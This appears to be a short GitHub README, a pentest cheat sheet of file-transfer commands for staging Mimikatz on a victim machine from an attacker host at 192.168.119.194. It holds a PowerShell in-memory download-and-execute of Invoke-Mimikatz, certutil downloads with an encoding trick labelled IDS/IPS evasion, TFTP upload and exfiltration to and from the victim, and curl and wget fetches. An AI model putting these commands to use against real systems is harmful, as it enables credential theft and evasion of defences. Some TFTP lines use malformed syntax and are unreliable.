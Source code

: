 # File-Transfert-Methods

## Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
// Upload
tftp -i http://192.168.119.194:8000/ put filename
// Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Certutil
```
Basic transfert
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

## Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```
